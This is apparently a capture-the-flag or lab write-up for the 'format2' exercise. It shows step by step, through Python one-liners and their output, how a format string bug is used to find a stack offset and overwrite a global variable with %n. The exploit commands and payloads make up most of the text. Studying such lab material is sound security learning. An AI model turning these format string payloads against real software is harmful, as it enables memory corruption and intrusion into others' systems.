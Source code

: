 **Format2**

Similar to Format1, only here we need to change to a specific value.


First, checking to see what address target is.
![](photos/Address.png)

Finding the right offset to put address in.

```diff
$ python -c "print 'AAAA' + '%x '*10" | ./format2
AAAA200 b7fd8420 bffff614 41414141 25207825 78252078 20782520 25207825 78252078 20782520 
target is 0 :(

$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*10" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 80496e4 25207825 78252078 20782520 25207825 78252078 
target is 0 :(

$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*5" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 80496e4 
```

Now, modifying target's value.

```diff
$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + '%n'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 
target is 39 :(
```

Hmm, why exactly 39? Let's try to play with this

```diff
$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + '%n64'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 64
target is 39 :(

$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + '64%n'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 64
target is 41 :(

$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + '4%n'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 4
target is 40 :(

$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + '5455%n'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 5455
target is 43 :(
```

Looks like the value of target = number of chars before %n + 39 (Length of the payload)

```diff
$ python -c "from struct import pack; print 'AAAA' + pack('<I', 0x080496e4) + '%x '*4 + 25*'A' + '%n'" | ./format2
AAAA��200 b7fd8420 bffff614 41414141 AAAAAAAAAAAAAAAAAAAAAAAAA
you have modified the target :)
```

Yes!
